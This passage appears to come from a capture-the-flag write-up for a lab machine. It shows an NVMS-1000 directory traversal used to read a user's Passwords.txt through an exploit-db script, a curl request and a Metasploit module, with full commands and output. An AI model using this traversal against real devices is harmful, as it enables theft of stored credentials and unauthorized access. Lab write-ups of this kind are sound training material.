 ### Network reconnaissance: HTTP (let's go back)

Let's use `NVMS-1000` path traversal again but this time with:
`Users/Nathan/Desktop/Passwords.txt` thanks to the information we got on the FTP.

```
$ cat /usr/share/exploitdb/exploits/hardware/webapps/48311.py | dos2unix -c iso -q | python2 - http://10.10.10.184/ Users/Nathan/Desktop/Passwords.txt passwords.txt
dos2unix: active code page: 0
Host not vulnerable to Directory Traversal!
```

No file but we are sure it's here. This exploit looks bad so it may be broken.

With curl no result either:

```
$ curl 'http://10.10.10.184/../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt' --head
HTTP/1.1 404 Not Found
Content-type: text/html
Content-Length: 0
Connection: close
AuthInfo:
```

But with [metasploit][msf] we get the file (WTF):

```
msf5 > search NVMS

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tvt_nvms_traversal  2019-12-12       normal  No     TVT NVMS-1000 Directory Traversal

msf5 > use 0
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > options

Module options (auxiliary/scanner/http/tvt_nvms_traversal):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   DEPTH      13                yes       Depth for Path Traversal
   FILEPATH   /windows/win.ini  yes       The path to the file to read
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                 yes       The base URI path of nvms
   THREADS    1                 yes       The number of concurrent threads (max one per host)
   VHOST                        no        HTTP server virtual host

msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set FILEPATH /Users/Nathan/Desktop/Passwords.txt
FILEPATH => /Users/Nathan/Desktop/Passwords.txt
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /home/cyfun/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
```